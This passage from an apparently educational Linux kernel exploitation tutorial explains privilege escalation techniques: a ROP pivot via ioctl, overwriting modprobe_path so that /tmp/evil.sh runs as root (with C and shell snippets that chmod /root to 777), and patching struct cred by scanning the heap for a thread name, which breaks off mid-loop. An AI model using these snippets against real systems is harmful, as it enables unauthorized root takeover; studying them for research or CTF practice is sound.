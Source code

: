 4. Overwrite function table as shown before so it executes the pivot gadget
5. Call `ioctl()` to trigger the jump

Congratulations! You are now executing your ROP chain in kernel by abusing a heap bug!

## Modprobe

This technique involves overwriting `modprobe_path` and calling modprobe program.

Modprobe is a userspace program that is run when we execute a binary that has invalid magic bytes. For example executing ELF file that starts with bytes XXXX will trigger modprobe. It is implemented in the kernel because it tries to load appropriate kernel modules for specific file types. The kernel stores path to Modprobe in `modprobe_path` variable which will be our target to overwrite. By default it points to `/usr/bin/modprobe` but we can make it point to our arbitrary file `/tmp/evil.sh`.

Steps for this technique:

1. Craft AAW primitive
2. Overwrite `modprobe_path`
```c
#define MODPROBE_PATH 0xffffffff81e38180
...
// Overwrite modprobe_path
char cmd[] = "/tmp/evil.sh";
for (int i = 0; i < sizeof(cmd); i++) {
    AAW32(MODPROBE_PATH + i, *(unsigned int*)&cmd[i]);
}
```
3. Prepare binary to be executed instead of modprobe
```c
// Prepare modprobe binary
system("echo -e '#!/bin/sh\nchmod -R 777 /root' > /tmp/evil.sh");
system("chmod +x /tmp/evil.sh");
```
4. Prepare binary with invalid magic bytes that will trigger modprobe
```c
system("echo -e '\xde\xad\xbe\xef' > /tmp/pwn");
system("chmod +x /tmp/pwn");
```
5. Execute the binary and `evil.sh` will be run as root!
```c
system("/tmp/pwn"); // modprobe_path
```

## Patching struct cred

This last method is my favourite because its not relying on any calls to functions but is directly changing the bytes that are important to become root.

The idea behind this technique is to change the `current->cred` struct of the current process so the process promotes its privileges.

Steps are the following:

1. In Linux using function `prctl()` you can set the threads name
```c
// Set thread name
if (prctl(PR_SET_NAME, "nekomaru") != 0) {
    perror("prctl");
}
```
2. Since this name is tied to a struct that has process info we can scan the heap memory to search for the string "nekomaru"
```c
// Search thread name in memory
long long addr;
for (addr = g_buf - 0x1000000; ; addr += 0x8) { // g_buf is an address on the heap
    if ((addr & 0xfffff) == 0) {
```